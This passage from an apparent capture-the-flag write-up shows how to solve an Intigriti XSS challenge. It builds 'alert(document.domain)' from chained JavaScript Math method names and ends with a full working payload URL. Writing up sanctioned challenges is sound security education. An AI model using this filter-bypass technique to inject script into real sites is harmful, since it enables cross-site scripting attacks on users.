 ```
```

Now we have to join it using `Math.seeds.join`. Here is the result from Dev Tools.

```js
> Math.seeds.join()
< 'a,l,e,r,t,(,d,o,c,u,m,e,n,t,.,d,o,m,a,i,n,)'
```

Oops! We have them comma separated 😞. So how to make it join without the comma? We know that `Math.seeds.join("")` with an empty string as an argument will join without the `,`.

```js
> Math.seeds.join("")
< 'alert(document.domain)'
```

But I’m not sure if have some empty strings out there to use and we couldn’t use String method to form it from a number. However converting converting an empty array to a string in JS will return an empty string!

```js
> [].toString()
< ''
```

But how do we get the empty array? We could just call <a href="https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/Array" target="_blank">Array</a> constructor with a 0 argument which means creating an empty array and then we could apply join with that empty array as argument. and in order to access to the `Array` constructor we could just access the seeds array and then it’s constructor to get it. Also to get the 0, we could just run `Math.floor` since the returned number from the last shift is 0.62536 making it 0. This is the payload to do so:

```
Math.floor,Math.seeds.constructor,Math.seeds.join
```

The payload is:

```
https://challenge-0823.intigriti.io/challenge/index.html?q=Math.seeds.pop,Math.abs.name.charAt,Math.seeds.push,Math.cos,Math.log.name.charAt,Math.seeds.push,Math.cos,Math.exp.name.charAt,Math.seeds.push,Math.cos,Math.round.name.charAt,Math.seeds.push,Math.sin,Math.tan.name.charAt,Math.seeds.push,Math.clz32,Math.cosh,Math.log2,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push,Math.tan,Math.constructor.defineProperties.name.charAt,Math.seeds.push,Math.log10,Math.round.name.charAt,Math.seeds.push,Math.cos,Math.ceil.name.charAt,Math.seeds.push,Math.cos,Math.seeds.unshift.name.charAt,Math.seeds.push,Math.cos,Math.max.name.charAt,Math.seeds.push,Math.sin,Math.exp.name.charAt,Math.seeds.push,Math.log,Math.sin.name.charAt,Math.seeds.push,Math.tan,Math.sqrt.name.charAt,Math.seeds.push,Math.sqrt,Math.atan,Math.exp,Math.exp,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push,Math.sqrt,Math.round.name.charAt,Math.seeds.push,Math.log10,Math.round.name.charAt,Math.seeds.push,Math.sin,Math.max.name.charAt,Math.seeds.push,Math.tan,Math.abs.name.charAt,Math.seeds.push,Math.tanh,Math.sin.name.charAt,Math.seeds.push,Math.acosh,Math.round.name.charAt,Math.seeds.push,Math.sqrt,Math.clz32,Math.cosh,Math.log2,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push,Math.seeds.shift,Math.seeds.shift,Math.seeds.shift,Math.seeds.shift,Math.floor,Math.seeds.constructor,Math.seeds.join
```
